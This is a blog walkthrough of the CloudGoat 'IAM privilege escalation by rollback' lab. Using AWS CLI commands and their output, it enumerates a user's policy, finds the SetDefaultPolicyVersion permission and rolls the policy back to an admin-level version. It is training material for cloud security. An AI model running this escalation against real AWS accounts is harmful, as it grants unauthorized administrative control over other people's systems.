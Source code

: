 ```yaml
---
title:  "CloudGoat: IAM Privilege Escalation by Rollback"
date:   2024-03-15
tags: cloudsecurity cybersecurity aws
last_modified_at: 2024-03-15
---
```


In this scene, we will be `raynor` user who has permission to rollback the policy version. We will use this permission to rollback the policy that has admin access.

I will use `raynor` for AWS CLI profile
{: .notice--info}

### Get `raynor` permission
List attached policies
```shell
aws --profile raynor iam list-attached-user-policies --user-name <raynor-username>
```

Result:
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_###",
            "PolicyArn": "arn:aws:iam::###:policy/cg-raynor-policy-iam_privesc_by_rollback_###"
        }
    ]
}
```

Get policy
```shell
aws --profile raynor iam get-policy --policy-arn arn:aws:iam::###:policy/cg-raynor-policy-iam_privesc_by_rollback_###
```

Result:
```json
{
    "Policy": {
        "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_###",
        "Arn": "arn:aws:iam::###:policy/cg-raynor-policy-iam_privesc_by_rollback_###",
        "Path": "/",
        "DefaultVersionId": "v1"
    }
}
```

Get policy version
```shell
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::###:policy/cg-raynor-policy-iam_privesc_by_rollback_### --version-id v1
```

Result:
```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "IAMPrivilegeEscalationByRollback"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1"
    }
}
```

From the result, the `raynor` user has a permission to set default policy version, so we will use this permission to rollback the policy to version that has full admin access.

### List policy versions
We need to know how many version of policy that `raynor` user have.
```shell
aws --profile raynor iam list-policy-versions --policy-arn arn:aws:iam::###:policy/cg-raynor-policy-iam_privesc_by_rollback_###
```

Result:
```json
{
    "Versions": [
        {
            "VersionId": "v5",
            "IsDefaultVersion": false,
            "CreateDate": "2024-03-15T10:55:18+00:00"
        },
        {
            "VersionId": "v4",
            "IsDefaultVersion": false,
            "CreateDate": "2024-03-15T10:55:18+00:00"
        },
        {
            "VersionId": "v3",
            "IsDefaultVersion": false,
            "CreateDate": "2024-03-15T10:55:18+00:00"
        },
        {
            "VersionId": "v2",
            "IsDefaultVersion": false,
            "CreateDate": "2024-03-15T10:55:18+00:00"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": true,
            "CreateDate": "2024-03-15T10:55:15+00:00"
        }
    ]
}
```

As you can see from the result, the policy has 5 versions and at this time, version 1 is a default version.

### Set default policy version
```shell
aws --profile raynor iam set-default-policy-version --policy-arn arn:aws:iam::###:policy/cg-raynor-policy-iam_privesc_by_rollback_### --version-id <version-id>
```

Voilà, we now have a policy that has admin access.